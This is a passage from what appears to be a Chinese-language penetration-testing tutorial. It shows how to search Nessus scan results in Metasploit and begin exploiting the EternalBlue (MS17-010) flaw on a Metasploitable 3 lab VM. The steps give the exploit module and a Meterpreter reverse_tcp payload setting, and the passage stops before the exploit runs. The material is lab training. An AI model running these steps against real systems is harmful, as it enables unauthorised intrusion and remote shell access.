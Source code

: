图 11：Nessus 发现的漏洞显示

现在，我们可以针对 Nessus 数据库导入搜索特定漏洞。例如，使用`vulns -S eternalblue`命令，我们可以搜索一个众所周知的漏洞，如下面的屏幕截图所示：

![](img/a6c2db09-0642-4e0c-a906-8384ed90d0f7.png)

图 12：在 Nessus 扫描中搜索漏洞

请注意，输出显示了主机的 IP 地址和与搜索查询相关的漏洞。

# 使用 Metasploit 对远程目标进行利用

现在我们已经从 Nessus 导入了数据，并且了解了如何使用 Metasploit Framework 中的功能，让我们对 Metasploitable 3 虚拟机进行漏洞利用。

我们将使用`ms17_010_eternalblue`漏洞。我们已经确定 Metasploitable 3 虚拟机对此漏洞存在漏洞：

1.  使用`msfconsole`命令从终端窗口打开 Metasploit Framework。

1.  加载 Metasploit Framework 后，使用`use exploit/windows/smb/ms17_010_eternalblue`命令并按*Enter*。

1.  使用`set RHOSTS [IP]`命令定义目标（即您的 Metasploitable 3 虚拟机的 IP 地址）。

1.  我们将使用 Meterpreter 有效载荷，因为这将在本章后面使用。使用`set payload``windows/x64/meterpreter/reverse_tcp`命令定义有效载荷。注意所有的设置选项，如下面的屏幕截图所示：

![](img/70ffc25d-38ef-480b-98ec-50b1a3811acf.png)

